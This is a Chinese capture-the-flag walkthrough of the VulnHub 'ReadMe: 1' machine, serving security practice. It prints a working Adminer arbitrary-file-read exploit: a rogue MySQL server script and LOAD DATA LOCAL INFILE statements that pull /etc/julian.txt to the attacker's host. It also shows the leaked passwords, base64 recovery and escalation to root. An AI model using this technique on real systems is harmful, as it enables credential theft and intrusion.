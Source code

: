 # ReadMe: 1

2025.02.22 https://www.vulnhub.com/entry/readme-1,336/

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

web 扫描发现 http://192.168.5.40/info.php 是 phpinfo 页面，mysql 版本 mysqlnd 5.0.12-dev ，仔细看一下 info.php 中 mysql 的配置信息，发现 mysqli.allow_local_infile = on 这里就可以加载客户端所在系统的文件到数据库，同时 open_basedir 没有设置。

发现另外一个页面 http://192.168.5.40/adminer.php 是个数据库管理页面，同时发现版本是 4.4.0 。这里就可以结合上面的配置，读取运行 adminer 网页的系统上的文件，前提是只要这个 adminer 能够连接远程的 mysql 服务就可以，adminer 默认开启远程连接。在 adminer 的后续高版本上已经修复了这个本地读取的漏洞。

发现 http://192.168.5.40/reminder.php 里面说密码在 txt 文件中，然后下面是一个搜索 username 的搜索框，输入单引号报错，存在 sql 注入，直接使用 sqlmap 跑，但是没发现信息，查看源码，发现图片的路径有提示：

```
that-place-where-i-put-that-thing-that-time/565b0f4691fe5
```

发现了目录的名字 that-place-where-i-put-that-thing-that-time，打开这个目录链接 http://192.168.5.40/that-place-where-i-put-that-thing-that-time/ 发现 creds.txt：

```
creds.txt -> /etc/julian.txt
```

这里需要读取到这个 /etc/julian.txt 文件。

可以利用 adminer 远程连接我们自己搭建的 mysql，然后利用 load local data 读取到目标机器上的 /etc/julian.txt 文件到我们自己搭建的数据库。

在 kali 上授权远程数据库连接，创建 test 数据库和 test 表用于接收数据：

```
grant all privileges on *.* to 'root'@'%' identified by 'mysql';

create database test;
use test;
create table test(name varchar(500));

SET GLOBAL local_infile = true;
SHOW GLOBAL VARIABLES LIKE 'local_infile';  # 要保证自己搭建的mysql开启这个参数
+---------------+-------+
| Variable_name | Value |
+---------------+-------+
| local_infile  | ON    |
+---------------+-------+
```

在 adminer.php 上连接我们自己 kali 上的数据库(这里服务器地址填 kali 的 ip 地址)，在 adminer 中执行下面语句导入本地文件：

```
load data local infile '/etc/julian.txt' into table test;    # 读取mysql客户端也就是运行adminer.php的机器上的本地文件到数据库。不加local是读取mysql服务器的文件，添加local参数为读取client本地文件。
```

这时在读取这个表就能看到 julian 的 ssh 连接密码：

```
select * from test;
+-----------------------------------------------------------------------------+
| name                                                                        |
+-----------------------------------------------------------------------------+
| U: julian                                                                   |
| P: I_mean...WhoThoughtLettingTheMySQLClientTransmitFilesWasAGoodIdea?Sheesh |  <-- ssh的连接密码
+-----------------------------------------------------------------------------+
```

或者自己用 python 搭建一个 mysql 的模拟服务端，也可以读取文件：

```
import socket
import logging
import sys
logging.basicConfig(level=logging.DEBUG)

filename=sys.argv[1]
sv=socket.socket()
sv.setsockopt(1,2,1)
sv.bind(("",33060))
sv.listen(5)
conn,address=sv.accept()
logging.info('Conn from: %r', address)
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
logging.info("auth okay")
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
logging.info("want file...")
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)
logging.info(content)
conn.close()
```

使用 python2 运行上述脚本，然后在 adminer.php 上进行连接，server 输入 192.168.5.3:33060 , 用户名和密码随意输，直接点 login

```
python2 exp.py '/etc/julian.txt'

INFO:root:Conn from: ('192.168.5.40', 43350)
INFO:root:auth okay
INFO:root:want file...
INFO:root:VU: julian
P: I_mean...WhoThoughtLettingTheMySQLClientTransmitFilesWasAGoodIdea?Sheesh
```

这里有这个漏洞的详细解析：https://wiki.96.mk/Web%E5%AE%89%E5%85%A8/Adminer/Adminer%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/

登陆后拿到了 user flag：

```
julian@readme:~$ cat  user.txt
2e640cbe2ea53070a0dbd3e5104e7c98
```

julian 没有 sudo 权限，同时其他 suid 和 crontab 等都没有利用路径。

这里在另外一个用户 /home/tatham 中发现了 payload.bin 和 poc.c ，根据文件命名，像是提权提示。需要得到 payload.bin 中的 shellcode 信息，将 payload 中的二进制代码复制到 poc.c 中进行编译，并且做了一些汇编代码修复。

最终得到了该用户的登陆密码：

```
U28uLi5Zb3VGaWd1cmVkT3V0SG93VG9SZWNvdmVyVGhpc0h1aD9HR1dQbm9SRQ==
```

对上面进行 base64 解码得到密码：

```
So...YouFiguredOutHowToRecoverThisHuh?GGWPnoRE
```

切换到 tatham 后，sudo -l 发现是 ALL 可以直接提权到 root：

```
root@readme:~# cat root.txt
52eeb6cfa53008c6b87a6c79f4347275
```
